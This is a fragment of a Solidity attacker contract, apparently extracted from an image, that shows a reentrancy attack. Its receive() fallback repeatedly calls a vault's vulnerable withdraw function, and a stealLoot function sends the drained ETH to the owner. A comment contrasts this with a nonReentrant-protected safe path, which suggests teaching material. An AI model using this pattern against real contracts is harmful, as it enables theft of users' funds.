 ```solidity
    bool public attackingSafe;

    constructor(address _vaultAddress) {
        targetVault = IVault(_vaultAddress);
        owner = msg.sender;
    }

    function attackVulnerable() external payable {
        require(msg.sender == owner, "Only owner");
        require(msg.value >= 1 ether, "Need at least 1 ETH to attack");

        attackingSafe = false;
        attackCount = 0;

        targetVault.deposit{value: msg.value}();
        targetVault.vulnerableWithdraw();
    }

    function attackSafe() external payable {
        require(msg.sender == owner, "Only owner");
        require(msg.value >= 1 ether, "Need at least 1 ETH");

        attackingSafe = true;
        attackCount = 0;

        targetVault.deposit{value: msg.value}();
        targetVault.safeWithdraw();
    }

    receive() external payable {
        attackCount++;

        if (!attackingSafe && address(targetVault).balance >= 1 ether && attackCount < 5) {
            targetVault.vulnerableWithdraw();
        }

        if (attackingSafe) {
            targetVault.safeWithdraw(); // This will fail due to nonReentrant
        }
    }

    function stealLoot() external {
        require(msg.sender == owner, "Only owner");
        payable(owner).transfer(address(this).balance);
    }

    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}

```

---
